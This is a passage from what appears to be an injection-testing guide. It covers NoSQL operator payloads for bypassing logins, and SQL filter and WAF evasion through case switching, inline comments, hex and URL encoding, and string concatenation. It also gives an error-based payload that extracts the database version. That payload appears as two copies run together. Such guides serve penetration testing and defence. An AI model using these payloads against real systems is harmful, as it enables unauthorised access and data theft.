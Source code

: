     - `$ne`: not equal
    - `$gt`/`$lt`: greater than/less than
    - `$regex`: regular expression match
    - `$where`: JavaScript expression
    - `$exists`: field existence check
    - `$or`: logical OR
- Example payloads:
    
    ```
    username[$ne]=invalid&password[$ne]=invalid
    username=admin&password[$regex]=^a
    username[$exists]=true&password[$exists]=true
    ```
    

### 7. Mitigation Bypass Techniques

#### 7.1 Filter Evasion

- Use alternate syntax to bypass filters:
    - Whitespace variations: tabs, newlines, carriage returns
    - Case switching: `UnIoN SeLeCt`
    - Comment injection: `U/**/NION/**/SEL/**/ECT`
    - Hex encoding: `0x756E696F6E2073656C656374` (for "union select")
    - URL encoding: `%55%4E%49%4F%4E%20%53%45%4C%45%43%54`
    - Double encoding: `%2555%254E%2549%254F%254E`

#### 7.2 WAF Bypass Techniques

- Test techniques that may bypass WAF rules:
    - SQL commenting: `/*!50000 UNION*//*!50000 SELECT*/`
    - String concatenation:
        - MySQL: `CONCAT('SEL','ECT')`
        - SQL Server: `'SEL'+'ECT'`
        - Oracle: `'SEL'||'ECT'`
    - Equivalents:
        - `1` → `true`, `1-0`, `2-1`
        - `=` → `LIKE`, `REGEXP`
        - `or 1=1` → `|| 1=1`, `or true`

#### 7.3 Prepared Statement Bypass Testing

- Test for partial escapes:
    
    ```
    1 AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)1' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '1'='1
    ```
    

### 8. Chaining with Other Vulnerabilities

#### 8.1 From SQLi to XSS
